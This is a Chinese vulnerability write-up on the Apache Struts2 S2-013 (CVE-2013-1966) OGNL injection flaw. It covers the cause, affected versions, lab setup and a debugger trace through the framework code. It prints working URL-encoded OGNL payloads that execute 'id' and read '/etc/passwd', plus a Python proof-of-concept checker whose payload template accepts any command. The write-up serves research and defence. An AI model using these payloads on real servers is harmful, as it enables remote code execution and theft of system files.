* [目录](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#目录)
   * [前言](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#前言)
   * [Struts简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#struts简介)
   * [漏洞复现](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#漏洞复现)
      * [漏洞简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#漏洞简介)
         * [漏洞成因](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#漏洞成因)
         * [漏洞影响范围](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#漏洞影响范围)
      * [环境搭建](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#环境搭建)
      * [Payload](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#payload)
         * [执行命令](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#执行命令)
         * [读取文件](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#读取文件)
      * [POC](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#poc)
   * [漏洞分析](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#漏洞分析)
   * [漏洞修复](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#漏洞修复)
   * [总结](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#总结)
   * [参考](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-013/S2-013.md#参考)

## 前言

> 这是Struts系列第八篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-013漏洞,又名CVE-2013-1966漏洞.

> 在Struts2标签中<s:a>和<s:url>都包含一个includeParams属性,其值可设置为none、get 或 all,其对应意义分别为,none:链接不包含请求的任意参数值(默认),get:链接只包含GET请求中的参数和其值,all:链接包含GET和POST所有参数和其值.<s:a>用来显示一个超链接,当includeParams=all的时候,会将本次请求的GET和POST参数都放在URL的GET参数上.这个参数会进行OGNL表达式解析,从而可以插入任意OGNL表达式导致任意代码执行

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-013)

#### 漏洞成因

> 在Struts2标签中<s:a>和<s:url>都包含一个includeParams属性,其值可设置为none、get 或 all,其对应意义分别为,none:链接不包含请求的任意参数值(默认),get:链接只包含GET请求中的参数和其值,all:链接包含GET和POST所有参数和其值.<s:a>用来显示一个超链接,当includeParams=all的时候,会将本次请求的GET和POST参数都放在URL的GET参数上.这个参数会进行OGNL表达式解析,从而可以插入任意OGNL表达式导致任意代码执行

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.3.14.1

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
?a=%24%7B%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27id%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

#### 读取文件

```java
?a=%24%7B%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27cat%20%2fetc%2fpasswd%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

### POC

```python

#!/usr/bin/env python3

import urllib
import random
import string
import requests

class S2_013_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-013漏洞,又名CVE-2013-1966漏洞',
            'description': 'Struts2 S2-013漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.14.1',
            'date': '2013-04-16',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/link.action'
        self.capta = self.get_capta() 
        self.payload = '?a=%24%7B%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27{cmd}%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D'
                                         
    def filter(self, check_str):

        """
        过滤无用字符

        :param str check_str:待过滤的字符串

        :return str temp:过滤后的字符串
        """
        
        temp = ''
        for i in check_str:
            if i != '\n' and i != '\x00':
                temp = temp + i
        return temp                
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            check_url = self.url + self.payload.format(cmd = urllib.parse.quote(('echo' + ' ' + self.capta), 'utf-8'))
            check_res = requests.get(check_url)
            check_str = self.filter(list(check_res.text))
            if check_res.status_code == 200 and len(check_str) < 100 and self.capta in check_str:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_013 = S2_013_BaseVerify('http://localhost:8080/s2_013_war_exploded/HelloWorld.action')
    S2_013.run()
```

## 漏洞分析

首先Struts2的运行流程是


&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

具体分析过程:

&emsp;&emsp;&emsp;&emsp;1.首先来看下配置文件,includeParams属性设置为all



&emsp;&emsp;&emsp;&emsp;2.在lib/struts2-core-2.2.3.jr/org.apache.struts2/components/ComponentUrlProvider.class文件第74行打断点,执行payload后会发现拦截到了请求,includeParams值为all,开始调试,点击F7进入方法this.includeParams内



&emsp;&emsp;&emsp;&emsp;3.会发现来到beforeRenderUrl函数,这个函数获取了url所传递的参数,F8继续执行,一直到end函数





&emsp;&emsp;&emsp;&emsp;4.F7进入renderUrl函数,这时候的urlComponent包含了payload,根据传递的参数,执行到第50行,F7进入determineActionURL方法





&emsp;&emsp;&emsp;&emsp;5.继续跟进determineActionURL方法,进入到重载函数determineActionURL,这时候可看到actionMapper,payload的前半部分已进入框架内,用来关闭沙箱和开启动态方法,F7进入buildUrl方法





&emsp;&emsp;&emsp;&emsp;6.buildUrl方法根据传递的值继续执行,来到117行,F7进入buildParametersString函数





&emsp;&emsp;&emsp;&emsp;7.继续跟进buildParametersString方法,根据传入的参数类型找到重载方法buildParametersString,继续根据传递的参数值执行到167行,进入buildParameterSubstring方法,可见传递给buildParameterSubstring方法的paramValue参数值为paylod







&emsp;&emsp;&emsp;&emsp;8.F7跟进translateAndEncode方法



&emsp;&emsp;&emsp;&emsp;9.F7跟进translateAndEncode方法,继续F7跟进translateVariable方法




&emsp;&emsp;&emsp;&emsp;10.F7跟进translateAndEncode方法,继续F7跟进translateVariable方法,会发现遇到了老朋友TextParseUtil.translateVariables,就是之前的漏洞利用的那个函数,继续F7跟下去,根据传递的参数类型进入到重载函数.







